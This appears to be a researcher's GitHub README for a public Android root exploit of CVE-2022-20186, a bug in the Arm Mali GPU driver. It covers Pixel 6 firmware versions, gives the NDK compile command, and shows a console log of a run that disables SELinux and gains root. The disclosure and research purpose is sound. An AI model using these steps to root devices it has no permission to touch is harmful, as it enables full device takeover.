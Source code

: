 ## Exploit for CVE-2022-20186

The write up can be found [here](https://github.blog/2023-01-23-pwning-the-all-google-phone-with-a-non-google-bug). This is a bug in the Arm Mali kernel driver that I reported in July 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6. The original exploit that was sent to Google is included as `hello-jni.c` as a reference and was tested on the July 2022 patch of the Pixel 6. Due to the fact that Pixel 6 cannot be downgraded from Android 13 to Android 12, an updated version of the exploit, `mali_shrinker_mmap.c` is included, which supports various firmware in Android 13, including the December patch, which is the latest affected version. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_shrinker_mmap.c -o mali_shrinker_mmap
```

The exploit should be run a couple of minutes after boot and should be fairly reliable. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_shrinker_mmap
fingerprint: google/oriole/oriole:13/TQ1A.221205.011/9244662:user/release-keys
failed, retry.
failed, retry.
region freed 51
read 0
cleanup flush region
jit_freed
jit_free commit: 0 0
Found freed_idx 0
Found pgd 20, 769c414000
overwrite addr : 7701100710 710
overwrite addr : 7700f00710 710
overwrite addr : 7701100710 710
overwrite addr : 7700f00710 710
overwrite addr : 7700d00710 710
overwrite addr : 7700f00710 710
overwrite addr : 7700d00710 710
overwrite addr : 7701100fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7701100fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7700d00fd4 fd4
overwrite addr : 7700f00fd4 fd4
overwrite addr : 7700d00fd4 fd4
result 50
oriole:/ # 
```

